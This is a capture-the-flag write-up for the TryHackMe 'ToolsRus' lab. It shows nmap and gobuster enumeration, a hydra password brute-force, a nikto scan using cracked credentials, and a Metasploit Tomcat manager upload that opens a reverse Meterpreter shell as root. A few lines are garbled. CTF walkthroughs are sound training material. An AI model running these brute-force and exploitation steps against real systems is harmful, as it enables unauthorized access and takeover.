

<table>
  <tr>
    <td>
      
    </td>
    <td width="900">
      <h1>TollsRus — Write-up</h1>
      <p>Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit</p>
      <p><strong>Difficulty:</strong> Easy 🟢</p>
       &nbsp;
       &nbsp;
      
    </td>
  </tr>
</table>

https://tryhackme.com/room/toolsrus

Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

#### **This room will introduce you to the following tools:**

* Dirbuster
* Hydra
* Nmap
* Nikto
* Metasploit
  
#### **If you are stuck at any point, each tool has a respective room or module linked above.**

## Reconnaissance

This phase focused on initial reconnaissance to confirm host availability and identify exposed services. Connectivity was verified using ICMP, followed by an Nmap scan to enumerate open ports and running services. The results provided a clear view of the attack surface and guided the next stages of the assessment.

```bash
ping Target_ip

64 bytes from 10.65.148.230: icmp_seq=1 ttl=62 time=158 ms
```
```bash
nmap target_ip 

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1234/tcp open  hotline
8009/tcp open  ajp13
```

### Answer the questions below

What directory can you find, that begins with a "g"?

```bash
gobuster dir -u http://target_ip -w /usr/share/wordlists/dirb/big.txt 
===============================================================
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/gu[redacted]es          (Status: 301) [Size: 319] [--> http://10.65.148.230/gu[redacted]s/]
/protected               (Status: 401) [Size: 460]
/server-status           (Status: 403) [Size: 301]
===============================================================
Finished
===============================================================
```
---

Whose name can you find from this directory?

```bash
curl http://10.65.148.230/guidelines/
Hey <b>b[redacted]b</b>, did you update that TomCat server?
```
---

What directory has basic authentication?

```bash
curl http://10.65.148.230/protected -I
HTTP/1.1 401 Unauthorized
Date: Thu, 01 Jan 2026 18:32:56 GMT
Server: Apache/2.4.18 (Ubuntu)
WWW-Authenticate: Basic realm="protected"
Content-Type: text/html; charset=iso-8859-1
```

```bash
/protected            (Status: 401) [Size: 460]
```
---

What is bob's password to the protected part of the website?

---

```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt target-ip http-get /protected 

Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-01-01 16:05:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.65.148.230:80/protected
[80][http-get] host: 10.65.148.230   login: b[redacted]b   password: b[redacted]s

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-01-01 16:05:52
```
---

What other port that serves a webs service is open on the machine?

```bash
nmap 

1234/tcp open  hotline
```
---

What is the name and version of the software running on the port from question 5?

http://target_ip:1234/


---

#### Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.

```bash
nikto -h http://target_ip/manager/html -id bob:bubbles 
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.67.144.158
+ Target Hostname:    10.67.144.158
+ Target Port:        1234
+ Start Time:         2026-01-01 21:49:50 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /manager/html/: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /manager/html/: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Successfully authenticated to realm 'Tomcat Manager Application' with user-supplied credentials.
+ All CGI directories 'found', use '-C none' to test none
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /manager/html/cgi.cgi/blog/mt.cfg: Movable Type configuration file found. Should not be available remotely.
+ /manager/html/webcgi/blog/mt.cfg: Movable Type configuration file found. Should not be available remotely.
+ /manager/html/cgi-914/blog/mt.cfg: Movable Type configuration file found. Should not be available remotely.
+ /manager/html/cgi-915/blog/mt.cfg: Movable Type configuration file found. Should not be available remotely.
```
---

* How many docume0
* What is the server version?
* What version of Apache-Coyote is this service using?

---

#### Use Metasploit to exploit the service and get a shell on the system.

```bash
msf exploit(multi/http/tomcat_mgr_upload) > exploit
[*] Started reverse TCP handler on 192.168.130.186:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying GK0sOPgSZqXAh...
[*] Executing GK0sOPgSZqXAh...
[*] Sending stage (58073 bytes) to 10.67.144.158
[*] Undeploying GK0sOPgSZqXAh ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 3 opened ([redacted]:4444 -> 10.67.144.158:54942) at 2026-01-01 23:07:25 -0300

meterpreter > getuid
Server username: root
meterpreter > cd root
meterpreter > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100667/rw-rw-rwx  47    fil   2019-03-11 13:06:14 -0300  .bash_history
100667/rw-rw-rwx  3106  fil   2015-10-22 15:15:21 -0200  .bashrc
040777/rwxrwxrwx  4096  dir   2019-03-11 12:30:33 -0300  .nano
100667/rw-rw-rwx  148   fil   2015-08-17 12:30:33 -0300  .profile
040777/rwxrwxrwx  4096  dir   2019-03-10 18:52:32 -0300  .ssh
100667/rw-rw-rwx  658   fil   2019-03-11 13:05:22 -0300  .viminfo
100666/rw-rw-rw-  33    fil   2019-03-11 13:05:22 -0300  flag.txt
040776/rwxrwxrw-  4096  dir   2019-03-10 18:52:43 -0300  snap

meterpreter > cat flag.txt 
ff1fc[redated][redacted]c6e0e1
meterpreter > 
```
### **Conclusion**

The TollsRus room provides an excellent environment for practicing the "bread and butter" of web penetration testing. By chaining together directory brute-forcing, credential stuffing, and vulnerability scanning, we moved from an unauthenticated external perspective to a full root shell via the Tomcat Manager.

The key takeaway from this challenge is the danger of credential reuse and exposed administrative interfaces. Even with a robust service like Apache, a single weak password on a protected directory can lead to a complete system compromise when administrative tools like Tomcat are accessible.

**Room Summary:**

**Initial Access:** Directory discovery via Gobuster and credential cracking with Hydra.

**Enumeration:** Vulnerability assessment of the Tomcat service using Nikto.

**Exploitation:** Leveraging Metasploit (tomcat_mgr_upload) to achieve Remote Code Execution (RCE).

**Privilege Escalation:** Not required, as the service was running with high privileges.

---
---
---

> ## PWNED! 🚩
> ### By Hirt, Nelson


